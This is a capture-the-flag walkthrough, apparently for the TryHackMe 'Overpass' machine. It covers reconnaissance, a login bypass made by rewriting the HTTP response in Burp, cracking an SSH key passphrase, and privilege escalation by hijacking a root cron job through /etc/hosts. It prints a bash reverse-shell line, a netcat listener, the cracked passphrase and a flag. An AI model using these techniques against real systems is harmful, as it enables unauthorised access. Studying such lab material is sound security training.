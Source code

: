 1. Recon
   - `nmap -sV -sC -vv -A -T5 10.10.117.88`
   - ports discovered: 22 & 80


2. Enumerate the directories with dirbuster
   - `dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://<target-ip>` 


3. failed attempts
   - /admin is SQLi protected
   - basic credentials like admin and guest with passwords admin and 12345 didn't work

4. Discoveries
   - found logic behind the login and ended up trying to bypass it with burp suite

 5. bypass the login logic with burp suite
    - installed foxyproxy extension on the browser and created a simple listener on 127.0.0.1:8080 that burp would use
    - used the Proxy tab in burp to intercept the login request and and configured it to receive the response to the login request
    - altered the login failure to a redirect to the page
      ```sh
      HTTP/1.1 302 FOUND
      Date: Mon, 20 Jul 2020 14:33:13 GMT
      Content-Length: 21
      Content-Type: text/plain; charset=utf-8
      Connection: close
      location: /admin
      ```
    - refreshed the webpage and got into a new page that had a private key in in belonging to "james"
    - possible user "Paradox"

6. Access to james' session with ssh
   - `ssh -i priv-key james@<target-ip>` < passphrase was found
   - used john to crack the passphrase
     - `ssh2john priv-key > priv-key.hash`
     - `john james-priv.hash --wordlist=/usr/share/wordlists/rockyou.txt`
   - passphrase: james13

7. Accessed james' session and found the first flag
   - thm{65c1aaf000506e56996822c6281e6bf7}
  
8. Ran linpeas on the target machine
   - found a cron job running as root
   - found /etc/hosts as rw to anyone

9. Privilege escalation attempt
   - because the machine has a cronjob that runs a script from overpass.thm/downloads/src/buildscript.sh, I need to create the path in my local machine and open an http server and a nc listener so that the target machine can connect to my machine via the cronjob(after changing the overpass.thm's ip in /etc/hosts)
   - changed overpass.thm's ip in /etc/hosts to my local machine ip
   - opened a nc listener on port 9001 `nc -lnvp 9001`
   - created the necessary paths(./downloads/src/buildscript.sh) so that the cron job fetches the script correctly
   - opened an http server on my local machine so that the curl will refer to my local machine `python3 -m http.server 80`
   - added this shell code to buildscript.sh in my local machine inside /download/src/buildscript.sh
     ```sh
     bash -i >& /dev/tcp/<local-machine-ip>/9001 0>&1
     ```
